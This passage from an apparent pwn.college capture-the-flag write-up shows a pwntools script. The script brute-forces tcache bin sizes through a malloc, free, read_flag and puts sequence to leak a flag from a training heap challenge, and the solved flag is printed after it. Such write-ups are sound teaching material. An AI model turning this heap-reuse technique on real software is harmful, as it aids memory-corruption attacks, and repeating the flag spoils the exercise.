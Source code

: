```python

def puts():
    target.sendlineafter(b": ", b"puts")


def read_flag():
    target.sendlineafter(b": ", b"read_flag")


def quit():
    target.sendlineafter(b": ", b"quit")


def test_size(candidate):
    launch()
    malloc(candidate)
    free()
    read_flag()
    puts()

    response = target.recvall(timeout=0.01)
    if b"pwn.college{" in response:
        target.close()
        return True
    return False


def main():
    for bin in range(0x20, 0x410 + 1, 0x10):
        base_req = bin - 0x10
        ok = test_size(base_req)
        if ok:
            log.success(
                f"Found working requested size: {hex(base_req)} for tcache bin {hex(bin)}"
            )
            return
        log.warning("Exhausted candidates, none matched.")
    target.interactive()


if __name__ == "__main__":
    main()
```

## Flag

:spoiler[`pwn.college{MihEcPIR1bQBmiQGOoGELSrscgW.0FN3MDL5cTNxgzW}`]

# Level 3.0
